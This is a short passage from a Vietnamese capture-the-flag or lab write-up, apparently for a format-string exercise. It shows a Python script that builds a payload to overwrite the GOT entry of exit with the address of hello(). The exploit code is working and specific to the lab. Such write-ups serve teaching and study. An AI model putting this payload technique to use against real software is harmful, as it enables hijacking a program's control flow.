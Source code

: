 ![alt text](image-6.png)

Ta thấy `exit` đã được lưu lại trong bảng GOT tại địa chỉ `0x08049724`, vì vậy bây giờ mình sẽ thử ghi đè giá trị tại địa chỉ này thành địa chỉ của hàm `hello()`

![alt text](image-7.png)

```py
import struct
buf = ""
buf += struct.pack("I", 0x08049724)
buf += struct.pack("I", 0x08049726)
buf += "%33964x%4$n%33616x%5$n"
print(buf)
```
Xâu định dạng mình đã sử dụng ý tưởng giống như format3, nhưng lần này chỉ cần ghi vào byte thứ nhất và byte thứ 3.

![alt text](image-8.png)
![alt text](image-9.png)
